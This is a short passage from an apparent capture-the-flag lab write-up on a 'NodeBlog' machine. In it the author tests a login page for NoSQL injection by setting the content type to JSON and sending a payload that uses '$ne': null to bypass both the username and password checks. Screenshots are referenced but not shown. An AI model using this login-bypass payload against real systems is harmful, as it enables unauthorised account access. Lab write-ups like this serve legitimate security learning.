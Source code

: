 Now lets see the login page →

Lets check for `NoSQL Injection` and change the content-type to `application/json` →

![Untitled](/Vulnhub-Files/img/NodeBlog/Untitled%201.png)

```bash
Content-Type: application/json

in JSON

{"user": {"$ne": null}, "password": {"$ne": null}}
```
{: .nolineno}
{: .nolineno}

Now lets see the output of it →

![Untitled](/Vulnhub-Files/img/NodeBlog/Untitled%202.png)
